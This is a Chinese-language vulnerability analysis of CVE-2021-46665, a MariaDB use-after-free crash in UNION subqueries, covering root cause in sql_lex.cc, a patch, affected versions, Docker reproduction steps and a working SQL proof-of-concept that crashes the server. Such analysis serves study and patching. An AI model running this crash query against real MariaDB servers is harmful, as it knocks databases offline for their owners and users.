



# CVE-2021-46665 CWE-None MariaDB DoS

## 漏洞背景

- **MariaDB ：**一款开源关系型数据库管理系统，由 MySQL 的创始人开发，与 MySQL 高度兼容。它具有高性能、高安全性、易于使用等特点，支持多种存储引擎，可保障数据的可靠存储与高效读写。同时，MariaDB 还具备强大的查询优化能力，能增强数据库性能，广泛应用于多种行业领域，为数据存储和管理提供有力支持。
- **相关子查询 (Correlated Subquery)**: 子查询的执行依赖于外部查询。外部查询每处理一行数据，子查询就需要**重新执行一次**。因此，它的执行上下文（比如内存、缓冲区）必须在整个外部查询的生命周期内保持有效。**非相关子查询 (Uncorrelated Subquery)**: 子查询可以独立于外部查询执行。它**只需要执行一次**，其结果就可以被缓存起来，供外部查询多次使用。执行完毕后，它的资源可以立即释放以节省内存。当一个子查询包含 `UNION` 时，如果 `UNION` 的**任何一个**分支是相关子查询，那么整个 `UNION` 的结果都依赖于外部查询的当前行。因此，整个 `UNION` 结构都必须被当作一个整体的相关子查询来对待，即每次外部查询迭代时，都需要重新计算。

## 漏洞原理

当一个 `UNION` 子查询中同时包含相关和非相关两个分支时，MariaDB 优化器未能统一它们的状态，导致被标记为“非相关”的分支在首次执行后便释放了内存；而执行引擎因整个 `UNION` 需重复执行，在后续迭代中尝试访问这块已释放的内存，从而引发了服务崩溃。

## 漏洞定位

分析 MariaDB 10.6.3：

在 sql\sql_lex.cc 文件，第 4863 行`st_select_lex::optimize_unflattened_subqueries`函数用于优化和处理包含子查询（特别是 UNION 子查询）的 SQL 解析树节点，核心任务是判断各子查询的“相关性”和“结果集是否为空”等属性，并据此决定后续执行和资源释放策略。

在第 **4942** 行，**如果 UNION 中有成员是相关的，则整个 UNION 语句就是相关的。**

在第 **4970** 行的判断中，**如果整个 UNION 都不相关，则把“相关”标志清除，允许它的结果被缓存**。

如果 `is_correlated_unit` 为 `true`，实际上没有对 UNION 内部各成员做任何特殊处理。只要一个成员相关，理论上整个 UNION 都要为多次执行做准备（即每个成员的 `uncacheable` 标志都应被设置），但**此处未同步标记所有 UNION 成员**。

正确的逻辑是 UNION 内只要有相关子查询，所有成员都应该同步标记为相关，否则会导致部分成员错误释放资源，造成数据库崩溃。

但是这里当 UNION 子查询的成员混有相关/不相关子查询时，不相关成员没预期到会被多次执行，导致资源提前释放，二次执行时崩溃。这导致相关的成员准备好了，非相关成员还以为只会执行一次，执行完后释放内部资源，外部再次调用时会用到已经被释放的数据结构，从而导致崩溃。

```c
// sql_lex.cc 文件，第 4863 行
bool st_select_lex::optimize_unflattened_subqueries(bool const_only)
{
  SELECT_LEX_UNIT *next_unit= NULL;
    // 遍历所有子查询单元
    // 遍历所有内部子查询单元，每个单元（un）可能是单独的子查询，也可能是 UNION
  for (SELECT_LEX_UNIT *un= first_inner_unit();un;un= next_unit ? next_unit : un->next_unit())
  {
    Item_subselect *subquery_predicate= un->item;
    next_unit= NULL;

    if (subquery_predicate)
    {
        // ... 
      
        // 对于每个 UNION 子查询，遍历其中所有 SELECT 语句
      for (SELECT_LEX *sl= un->first_select(); sl; sl= sl->next_select())
      {
        JOIN *inner_join= sl->join;
       // 每个 sl 都会经过 JOIN 优化，判断相关性、是否为空、以及更新解释信息
          
          // ...
          
          // ************** 第 4942 行 ***************************************
          // 只要其中一个成员相关，则整个 unit 相关
        is_correlated_unit|= sl->is_correlated;
        
          // ...
          
          // 判断 UNION 结果是否为空
        if (empty_union_result)
        {
          // 只要有一个成员结果不为空，UNION 结果也不为空
          empty_union_result= inner_join->empty_result();
        }
        if (res)
          return TRUE;
      }
        //  优化结束后属性设定
      if (empty_union_result)
        subquery_predicate->no_rows_in_result();
        
        // ************** 第 4970 行 ****************************************
        // 如果不相关，则把“相关”标志清除
      if (!is_correlated_unit)
        un->uncacheable&= ~UNCACHEABLE_DEPENDENT;
      subquery_predicate->is_correlated= is_correlated_unit;
    }
  }
  return FALSE;
}
```

## 漏洞修复


只要UNION有成员相关（相关子查询），所有成员`uncacheable |= UNCACHEABLE_DEPENDENT`，意味着所有成员都被视为相关子查询，确保每个成员都为多次执行做好准备，并且**不会提前释放资源**。

```c
if (is_correlated_unit) { // There are related subqueries in UNION
    // All UNION members need to be marked as relevant to prevent premature release of resources
    for (SELECT_LEX *sl= un->first_select(); sl; sl= sl->next_select())
        sl->uncacheable |= UNCACHEABLE_DEPENDENT;
} else {
    // All members are unrelated, restoring the original logic
    un->uncacheable &= ~UNCACHEABLE_DEPENDENT;
}
subquery_predicate->is_correlated = is_correlated_unit;
```

## 影响范围


**受影响的版本：** MariaDB：

- 10.2.0 至 10.2.42
- 10.3.0 至 10.3.33
- 10.4.0 至 10.4.23
- 10.5.0 至 10.5.14
- 10.6.0 至 10.6.6
- 10.7.0 至 10.7.2

## 环境搭建

启动 Docker 环境，MariaDB 版本为 10.6.3，管理员用户为 root，密码为 12345，存在一个数据库 test_db，开放端口为 3306，容器中已存在 PoC 文件 CVE-2021-46665-PoC.sql 。

```txt
cpe:2.3:a:mariadb:mariadb:10.6.3:*:*:*:*:*:*:*
```



## 漏洞复现

1、进入容器命令行

```bash
docker exec -it mariadb-10.6.3 bash
```

2、使用 root 用户登录并连接数据库 test_db，密码为 12345

```sql
mariadb -u root -p test_db
```

3、执行 PoC 文件 CVE-2021-46665-PoC.sql，可以看到遇到错误且容器自动关闭

```sql
source CVE-2021-46665-PoC.sql
```



4、查看 MariaDB 崩溃日志，可以看到`[ERROR] mysqld got signal 11 ;`，表明 Segmentation Fault（段错误）发生导致 DoS。

```bash
docker logs mariadb-10.6.3
```



## POC分析

```sql
CREATE TABLE t1 (i1 int);
INSERT INTO t1 VALUES (62),(66);
CREATE TABLE t2 (i1 int);
 
SELECT 1 FROM t1 
WHERE t1.i1 = (
    -- 分支 A
  SELECT t1.i1 FROM t2  
  UNION 
    -- 分支 B，自然连接：根据两个表中同名字段自动进行连接操作
  SELECT i1 FROM (t1 AS dt1 NATURAL JOIN t2) 
    -- 定义一个名为 w1 的窗口，其作用范围为：按照 t1.i1 的值进行分区（PARTITION）
  WINDOW w1 AS (PARTITION BY t1.i1)
);
```

分支A `SELECT t1.i1 FROM t2`：这个查询引用了外部查询的 `t1.i1`，因此它是一个**相关子查询**。它的结果依赖于外部 `t1` 表的当前行。

分支B `SELECT i1 FROM (t1 AS dt1 NATURAL JOIN t2) window w1 as (partition by t1.i1)`：这个查询看起来也引用了外部的 `t1.i1`，所以初步判断也是相关的。优化器进一步分析发现，这个查询的核心是 `t1 AS dt1 NATURAL JOIN t2`。由于 `t2` 表是空的（`CREATE TABLE t2 (i1 int);`），这个自然连接的结果**永远是空集**。既然结果永远是空集，那么 `window` 函数也就作用于一个空集上，其最终结果也永远是空集。这个结果与外部查询的 `t1.i1` 的具体值**毫无关系**。优化器优化掉了其相关性并标记为**非相关子查询**。

经过优化后，`UNION` 内部出现了矛盾的状态：分支 A 被标记为 **相关 (Correlated)**，而分支 B 被标记为 **非相关 (Uncorrelated)**。在有漏洞的版本中，系统没有一个统一的机制来协调这个状态。整个 `UNION` 因为分支 A 的存在，在执行时必须按相关子查询处理。但分支 B 自身却认为自己是非相关的。

处理外部 `t1` 表的第一行数据（i1=62）时，由于分支 B 被标记为**非相关**，引擎认为它只需要执行一次。它执行后得到空集，然后**立即释放了为它分配的执行结构和内存**。由于整个 `UNION` 子查询被视为相关的，执行引擎尝试为第二行数据（i1=66） 再次执行这个 `UNION`时，MariaDB 会重新走所有分支，分支 B 分配的执行结构和内存已经被释放了，对已释放内存的访问导致出错。

## 参考链接


[NVD - CVE-2021-46665](https://nvd.nist.gov/vuln/detail/CVE-2021-46665)

[[MDEV-25636\] Bug report: abortion in sql/sql_parse.cc:6294 - Jira --- [MDEV-25636] Bug report: abortion in sql/sql_parse.cc:6294 - Jira](https://jira.mariadb.org/browse/MDEV-25636)

[MDEV-25636: Bug report: abortion in sql/sql_parse.cc:6294 · MariaDB/server@3a52569](https://github.com/MariaDB/server/commit/3a52569499e2f0c4d1f25db1e81617a9d9755400)

